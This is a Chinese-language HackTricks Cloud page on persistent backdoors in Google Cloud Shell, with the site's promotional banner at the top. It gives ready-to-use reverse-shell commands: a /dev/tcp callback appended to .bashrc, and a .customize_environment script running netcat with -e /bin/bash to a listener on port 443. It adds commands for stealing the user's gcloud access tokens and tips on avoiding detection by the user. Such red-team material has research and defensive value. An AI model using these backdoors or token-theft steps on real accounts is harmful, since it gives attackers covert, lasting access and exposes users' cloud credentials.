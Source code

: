 # GCP - 云Shell持久性

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **提交PR来分享您的黑客技巧**
*
*
*
* github仓库。

</details>

## 云Shell

有关更多信息，请查看：

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### 持久后门

[**Google Cloud Shell**](https://cloud.google.com/shell/)为您提供了直接从浏览器访问云资源的命令行访问权限，而无需任何相关费用。

您可以从**Web控制台**或运行**`gcloud cloud-shell ssh`**来访问Google的Cloud Shell。

对于攻击者来说，这个控制台具有一些有趣的功能：

1. **任何具有Google Cloud访问权限的用户**都可以访问一个完全经过身份验证的Cloud Shell实例（即使是组织的所有者也可以）。
2. 该实例将在至少120天内**保留其主目录**，如果没有任何活动发生。
3. **组织没有能力监视**该实例的活动。

这基本上意味着攻击者可以在用户的主目录中放置一个后门，只要用户每120天至少连接到GC Shell一次，后门就会存活下来，攻击者每次运行时都会获得一个shell，只需执行：
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

在主目录中还有一个名为**`.customize_environment`**的文件，如果存在，每次用户访问**云shell**时都会被**执行**（就像在之前的技术中一样）。只需插入前面的后门或类似以下内容的后门，即可在用户**频繁**使用云shell时保持持久性：
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
重要提示：**第一次执行需要身份验证的操作时**，用户浏览器中会出现一个弹出授权窗口。必须在命令运行之前接受此窗口。如果出现意外弹出窗口，可能会引起怀疑，并潜在地危及正在使用的持久性方法。
{% endhint %}

这是在浏览器用户会话中查看作为攻击者执行`gcloud projects list`时的弹出窗口：

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

然而，如果用户已经积极使用了云shell，则不会出现弹出窗口，您可以**收集用户的令牌**：
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH连接是如何建立的

基本上，使用了以下3个API调用：

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST\]（将让您添加您在本地创建的公钥）
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST\]（将让您启动实例）
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET\]（将告诉您Google Cloud Shell的IP）

但您可以在[https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)中找到更多信息

## 参考资料

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)
